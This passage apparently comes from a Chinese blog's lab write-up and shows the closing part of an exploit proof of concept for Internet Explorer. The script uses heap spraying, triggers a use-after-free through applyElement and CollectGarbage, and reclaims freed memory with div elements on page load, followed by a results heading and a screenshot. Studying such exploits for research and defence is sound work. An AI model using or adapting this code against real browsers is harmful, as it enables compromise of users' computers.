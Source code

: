         heap_chunks[i] = block.substring(<span class="hljs-number">0</span>,<span class="hljs-number">0x40000</span>);
    <span class="hljs-regexp">//location</span>.href = <span class="hljs-string">'ms-help://'</span>;
    function helloWorld() 
    {
    <span class="hljs-regexp">//alert</span>(<span class="hljs-number">1</span>);
          var e<span class="hljs-number">0</span> = null;
          var e1 = null;
          var e2 = null;

          try 
          {
               e<span class="hljs-number">0</span> = document.getElementById(<span class="hljs-string">"a"</span>);
               e1 = document.getElementById(<span class="hljs-string">"b"</span>);
               e2 = document.createElement(<span class="hljs-string">"q"</span>);
               e1.applyElement(e2);
               e1.appendChild(document.createElement(<span class="hljs-string">'button'</span>));
               e1.applyElement(e<span class="hljs-number">0</span>);
               e2.outerText = <span class="hljs-string">""</span>;
               e2.appendChild(document.createElement(<span class="hljs-string">'body'</span>));
          } catch(e) { }
          CollectGarbage();
           <span class="hljs-keyword">for</span>(var i = <span class="hljs-number">0</span>; i&lt;<span class="hljs-number">0x50</span>; i++)
          {
               arr_div[i]= document.createElement(<span class="hljs-string">"div"</span>);
               arr_div[i].title= junk.substring(<span class="hljs-number">0</span>,(<span class="hljs-number">0x58</span>-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
          }

     }

     &lt;<span class="hljs-regexp">/script&gt;
&lt;/head</span>&gt;
&lt;body onload=<span class="hljs-string">"helloWorld()"</span>&gt;
     &lt;form id=<span class="hljs-string">"a"</span>&gt;
     &lt;<span class="hljs-regexp">/form&gt;
     &lt;dfn id="b"&gt;
     &lt;/dfn</span>&gt;
&lt;<span class="hljs-regexp">/body&gt;
&lt;/html</span>&gt;</code></pre>
<h1 id="0x05-实验结果">0x05 实验结果</h1>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170707164049179?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p></div>